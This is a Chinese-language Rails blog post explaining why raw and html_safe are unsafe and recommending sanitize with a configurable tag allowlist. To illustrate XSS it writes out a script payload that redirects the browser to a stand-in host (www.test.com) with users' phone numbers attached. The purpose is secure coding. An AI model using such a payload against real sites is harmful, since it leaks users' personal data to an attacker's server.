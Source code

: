 ```yaml
---
layout: post
title:  "rails中的 raw, html_safe, sanitize"
date:   2018-09-04 18:10:22 +0800
categories: blank update
---
```

避免使用`raw`和`html_safe`, 安全使用`sanitize`
- ### raw
例如：
{% highlight ruby %}
<%= raw "<script type=\"text/javascript\">window.location.href='http://www.test.com?a=#{User.limit(10).map(&:phone).join(',')}';</script>" %>
{% endhighlight %}
结果：
执行 `script`中的内容，并且查询`User`数据发送给`www.test.com`,如果`www.test.com`是自己的服务器，我们可以在服务器中截取`User`用户数据，比如`cookie`

我们可以看raw的源代码，其实就是用`html_safe`实现的
{% highlight ruby %}
def raw(stringish)
  stringish.to_s.html_safe
end
{% endhighlight %}

- ### html_safe

html_safe是完全把你的html内容原本原样的输出，这种事非常不安全的，把`script`标签的内容输出并执行结果，比如会造成XSS攻击
和`raw`一样，同上

- ### sanitize

`sanitize`的源代码中：
{% highlight ruby %}
self.allowed_tags = Set.new(%w(strong em b i p code pre tt samp kbd var sub
  sup dfn cite big small address hr br div span h1 h2 h3 h4 h5 h6 ul ol li dl dt dd abbr
  acronym a img blockquote del ins))
self.allowed_attributes = Set.new(%w(href src width height alt cite datetime title class name xml:lang abbr))
{% endhighlight %}

我们可以看到，`sanitize`是有默认的白名单，把一些危险的标签给去除掉，相对`html_safe`安全很多
也可以自己设置白名单
在`config/appliction.rb`中设置：
{% highlight ruby %}
class Application < Rails::Application
 config.action_view.sanitized_allowed_tags = ['table', 'tr', 'td'] #安全的标签
 config.action_view.sanitized_allowed_attributes = ['id', 'class', 'style'] #安全的属性
end
{% endhighlight %}

例如：
{% highlight ruby %}
<%= sanitize "<script type=\"text/javascript\">window.location.href='http://www.test.com?a=#{User.limit(10).map(&:phone).join(',')}';</script>" %>
{% endhighlight %}
结果：
{% highlight ruby %}
window.location.href='http://www.test.com?a=***';
{% endhighlight %}

并不会执行`script`,而是把不是白名单的标签内容输出

不管怎么样，使用`sanitize`就好了，如果有需求也可以自行配置`sanitize`的白名单，比较安全可靠
